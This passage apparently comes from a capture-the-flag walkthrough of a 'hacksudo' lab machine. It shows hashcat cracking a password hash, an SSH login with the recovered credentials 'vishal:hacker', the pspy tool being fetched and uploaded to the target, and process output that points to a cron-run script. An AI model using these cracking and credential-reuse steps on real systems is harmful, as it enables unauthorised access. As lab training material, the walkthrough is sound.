```shell
$ hashcat -a 0 -m 1700 vishal.hash rockyou.txt --force
...SNIPPED...
985aa195c09fb7d64a4bb24cfe51fb1f13ebc444c494e765ee99d6c3ef46557c757787f8
f5a6e0260d2e0e846d263fbfbe1311c884bb0bf9792f8778a4434327:hacker
...SNIPPED...
```
Then I was able to crack it, and now, I have the credentials `vishal:hacker`. When I use the `ssh` command:
```shell
$ sshpass -p 'hacker' ssh vishal@192.168.2.35 -p 2222
```

Then I successfully connected to `vishal`'s shell:

![evidence](./static/19-ssh-hacker.png)

## Lateral movement 2
When I check the `/office` directory again, then I can assume the `hacksudo` file might be running in the background
And I try to examine the process with the `Pspy` tool.. When I download the `Pspy` tool:
```shell
$ wget "https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/
> pspy64"
```
And I copy it to the `vishal`'s home:
```shell
$ sshpass -p 'hacker' scp -P 2222 pspy64 vishal@192.168.2.35:/home/vishal
```
And I run it:
```shell
$ vishal@hacksudo:~$ ./pspy64
...SNIPPED...
2023/02/02 14:30:01 UID=1000  | /bin/sh -c /home/hacksudo/./getmanager
2023/02/02 14:30:01 UID=1000  | /home/hacksudo/./getmanager
2023/02/02 14:30:01 UID=1000  | sh -c bash /home/vishal/office/manage.sh
...SNIPPED...
2023/02/02 14:32:01 UID=1000  | sh -c bash /home/vishal/office/manage.sh
```